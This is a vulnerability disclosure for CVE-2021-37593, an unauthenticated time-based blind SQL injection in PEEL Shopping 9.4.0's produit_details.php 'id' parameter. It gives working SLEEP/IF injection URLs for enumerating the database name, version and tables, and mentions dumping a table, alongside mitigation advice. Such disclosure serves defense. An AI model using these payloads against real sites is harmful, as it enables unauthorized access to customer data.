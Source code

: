 **Vulnerability Name:** SQL Injection in "_produit_details.php?id_" parameter

**Date of Discovery:** 10 July 2021 

**Product version:** 9.4.0 . [Download link](https://drive.google.com/file/d/1FM8du7J6DDxE-LwVmH8JI502vvom-DUU/view?usp=sharing)

**Author:** faisalfs10x

**Vulnerability Description:** Public user/guest (unauthenticated) can inject malicious SQL query in order to affect the execution of predefined SQL commands via the "_id_" parameter on the "_/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_" endpoint. Upon successful of SQL injection attack, attacker can read sensitive data from the database or modify database data.

**Vulnerable URL:** _http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_

**Proof of Concept:**

**1)** Assumed peel-shopping_9_4_0 out of box installation database name is _peel_. This query will check if _database()_ name like _hex(%peel%)_ - it will delay for 7 seconds before redirect to homepage (http://localhost/peel-shopping_9_4_0/) that indicates TRUE SQL statement which mean the database name like "_peel_".

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(7-(IF(DATABASE()+LIKE+0x257065656c25,0,5)))))FSXX) 

[PoC enum db name]
![enum_dbname](https://user-images.githubusercontent.com/51811615/125202026-5ac05480-e2a4-11eb-8aa8-0bd79718769f.png)


**2)** Assumed the web is using MariaDB database server - check if db_version like _hex(%MariaDB%)_, it will delay for 5 seconds if TRUE.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(5-(IF(VERSION()+LIKE+0x254d61726961444225,0,5)))))FSXX)

[Poc enum MariaDB]
![enum_dbversion(MariaDB)](https://user-images.githubusercontent.com/51811615/125202107-b68add80-e2a4-11eb-8b16-5f03eedcb275.PNG)


**3)** By default, the database have a table name = peel_produits. This query will check if table_name _peel_produits_ is exist, it will delay for 10 seconds if TRUE, else will redirect to homepage instantly.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(10-(IF(EXISTS(SELECT+3+FROM+peel.peel_produits),0,5)))))FSXX)

[PoC enum table peel_produits]
![enum_tablename](https://user-images.githubusercontent.com/51811615/125202148-d91cf680-e2a4-11eb-95fe-5dd3c633f285.png)


To produce SQL syntax error, it is possible to intercept the request before it is redirect to homepage using a tool like BurpSuite (repeater).

**Error syntax:** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELdECT(SLEEP(3-(IF(USER()+LIKE+0xGEN_ERROR,0,5)))))ERR)

1. [MariaDB disclosed image]
![sql_error_mariadb](https://user-images.githubusercontent.com/51811615/125202162-e934d600-e2a4-11eb-8a08-9086e37f1706.png)

2. [peel_produits table_name disclosed]
![sql_errorbased2](https://user-images.githubusercontent.com/51811615/125202167-efc34d80-e2a4-11eb-9158-a66b2297eff3.png)

**Dump table name = peel_profil**

![dump_table_peel_profil](https://user-images.githubusercontent.com/51811615/125201991-2b114c80-e2a4-11eb-9c16-3a5197bcb51a.PNG)


**Consequences:** 

- Confidentiality: Since SQL databases generally hold sensitive data, loss of confidentiality is a frequent problem with SQL Injection vulnerabilities.
- Integrity: Just as it may be possible to read sensitive information eg client/customer sensitive data, it is also possible to make changes or even delete this information with a SQL Injection attack.

**Mitigation:** Use of Prepared Statements (with Parameterized Queries). It would be good also to casting integer to ensure only numerical data is inserted in 'id' parameter eg - intval($_GET['id'])

**References for Mitigation Vulnerability:** https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

**References:** 
- https://github.com/advisto/peel-shopping/issues/3
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37593
